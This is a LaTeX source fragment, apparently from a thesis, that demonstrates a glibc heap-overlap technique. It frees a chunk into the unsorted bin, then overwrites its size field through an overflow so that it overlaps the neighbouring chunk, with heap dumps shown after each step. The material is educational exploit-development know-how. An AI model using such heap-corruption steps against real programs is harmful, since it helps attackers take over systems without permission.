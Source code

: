 \documentclass{masterthesis}
\newcommand*\ub{unsorted bins}
\newcommand*\freec{\lstinline{free}\xspace}
\begin{document}
\begin{lstlisting}[language=c,frame=tlrb]
p1 = malloc(0x100 - 8);
p2 = malloc(0x100 - 8);
p3 = malloc(0x80 - 8);
\end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010  31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)
 [0x0000555555559110  78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]
Chunk(addr=0x555555559210, size=0x80, flags=)
 [0x0000555555559210  33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 3333333333333333]
\end{lstlisting}

Now lets \freec{} the second chunk, As we discuss, This chunk add to the \ub{} at first, then, It can be used for future allocation:

\begin{lstlisting}[language=c,frame=tlrb]
free(p2).
\end{lstlisting}

\begin{lstlisting}[frame=tlrb]
unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
 Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)

Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010  31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)
 [0x0000555555559110  78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]
Chunk(addr=0x555555559210, size=0x80, flags=)
 [0x0000555555559210  33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 3333333333333333]
Chunk(addr=0x555555559290, size=0x20d80, flags=PREV_INUSE) top chunk
\end{lstlisting}

In the next step, like we did before, we have to change the chunk size by overflow:

\begin{lstlisting}[language=c,frame=tlrb]
int evil_chunk_size = 0x181;
int evil_region_size = 0x180 - 8;
*(p2-1) = evil_chunk_size;
\end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010  31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 [0x0000555555559110  78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]

unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
 Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 \end{lstlisting}
\end{document}
